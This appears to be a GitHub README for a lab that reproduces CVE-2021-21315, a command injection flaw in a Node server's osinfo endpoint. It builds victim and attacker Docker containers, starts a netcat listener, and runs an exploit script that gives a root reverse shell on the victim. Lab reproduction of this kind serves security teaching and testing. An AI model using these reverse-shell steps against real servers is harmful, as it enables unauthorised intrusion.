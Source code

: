 # CVE-2021-21315
This is a fork repo adding in more complete documentation as well as an 'attacker' container to exploit CVE. Everything is done using pure docker (not docker-compose) inside a docker network to facilitate communication. Follow the instructions below.

### Running
**1. Clone the repo.**

``` sh
git clone https://github.com/timothy1205/CVE-2021-21315`
```


**2. Build our victim and attacker images called `victim-image` and `attacker-image` respectively.**

```sh
docker build -t victim-image ./victim
docker build -t attacker-image ./attacker
```

**3. Create our docker network to allow the containers to communicate.**

We will use subnet `172.10.10.0/24` on our network called `exploit-network for this example.

``` sh
docker network create --subnet 172.10.10.0/24 exploit-network
```


**4. Create our docker containers on our network.**

Our attacker will be assigned a static ip`172.10.10.2` and our victim `172.10.10.3`.

``` sh
docker run --net exploit-network --ip 172.10.10.2 --name attacker -d attacker-image
docker run --net exploit-network --ip 172.10.10.3 --name victim -d victim-image
```

**5. Run the exploit.**

You will want to have two separate shells open. One for running netcat and one for running the exploit.

Shell 1: Launch netcat on port `4444`
``` sh
# Shell 1
docker exec -it attacker bash
nc -nlvp 4444
```

Shell 2: Run the exploit.
* `-u http://172.10.10.3:3000/api/osinfo?param` is the endpoint our victim is listening on. `param` represents the parameter holding the expected process name, but will instead be used for our payload. 
* `--lport 4444` is our netcat port on our attacker container.
* `--lhost 172.10.10.2` is our attacker container's ip.

``` sh
# Shell 2
docker exec -w /root -it attacker bash
python3 exploit.py -u http://172.10.10.3:3000/api/osinfo?param --lport 4444 --lhost 172.10.10.2
```
**6. Done**

You should notice your shell running netcat turned to a bash shell. Running a quick `ls` will reveal that you have access to the files for the node server. You will also notice you are root (the user that runs the node server within the container) and have full access to the system (container).

**7. Cleanup**

Run these commands to remove all the created docker assets.

``` sh
docker rm victim -f
docker rm attacker -f
docker image rm victim-image -f
docker image rm attacker-image -f
docker network rm exploit-network
```

